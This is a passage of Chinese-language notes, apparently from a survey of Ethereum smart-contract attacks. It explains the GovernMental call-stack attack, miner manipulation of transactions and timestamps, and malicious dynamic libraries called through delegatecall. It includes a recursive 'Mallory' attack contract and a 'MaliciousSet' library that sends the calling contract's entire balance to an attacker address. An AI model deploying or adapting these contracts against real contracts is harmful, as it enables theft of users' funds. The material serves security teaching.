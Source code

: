 ```solidity
}
```

为了参与这个合约，玩具需要投资至少 `jackpot / 2` 数量的 _ether_ - 每次投资后，这个上限都会变高。合约假定玩家都是用户或者空 fallback 的合约 - 因此在 `send()` 时不会产生 out-of-gas 异常。

攻击 1 - 攻击者为合约所有者，其目标是不把 _ether_ 付给赢家。它可以发布如下合约：

```solidity
contract Mallory {
  function attack(address target, uint count) {
    if (0 <= count && count < 1023)
      this.attack.gas(msg.gas - 2000)(target, count + 1);
    else
      Governmetal(target).resetInvestment();
  }
}
```

攻击者反复调用自身，引发调用栈的增长。当调用栈达到 1022 的深度后，调用 GovernMetal 的 `resetInvestment()`，此时调用栈为 1023。向赢家调用 `send()` 时，由于调用栈深度的限制而产生异常，转账失败。但合约中没有对 `send()` 的返回值做判断，因此合约继续执行，游戏开始新的一轮，上轮赢家没有拿到钱。而合约所有者只需要等新一轮游戏正确结束后，就能拿到上一轮所有的钱。

攻击 2 - 攻击者是一个矿工。它只需要保证除了它以外的所有 transaction 都不上链，那么它就一直是游戏的最后一轮参与者了。这个漏洞使用了 unpredictable state 威胁 - transaction 能否上链是不确定的。

攻击 3 - 攻击者也是矿工。矿工可以设置新 block 的 timestamp 为当前 block timestamp 的一分钟以后。

### 4.6 Dynamic Libraries

合约可以动态更新其 field。Library 是一种特殊的合约，其中不能有可被修改的 field，实现了一些别的合约需要用到的基本功能。合约运行时可以将其依赖的 library 动态更新为新版本。对 library 中函数的调用是通过 `delegatecall` 完成的 (运行于调用者一方)。

Bob 是使用 library 合约的合约，使用 `getSetVersion()` 来查询 library 的版本：

```solidity
library Set { function version() returns (uint); }
contract Bob {
  SetProvider public provider;
  function Bob(address arg) {
    provider = SetProvider(addr);
  }
  
  function getSetVersion() returns (uint) {
    address setAddr = provider.getSet();
    return Set(setAddr).version();
  }
}
```

如果 library 提供方也是攻击者：

```solidity
library MaliciousSet {
  address constant attackerAddr = 0x42;
  function version() returns(uint) {
    attackerAddr.send(this.balance);
    return 1;
  }
}
```

Library 的提供方将 library 动态更新为恶意 library，而 Bob 并不知情。Bob 调用 `version()` 后，由于是使用 `delegatecall` 来调用的，运行环境在 Bob 一侧，因此 `this.balance` 指的是 Bob 的余额。Bob 把自己所有的余额发给了攻击者。

这个攻击利用了 unpredictable state 威胁。由于 library 版本的动态性，因此调用的版本不可预知。

---

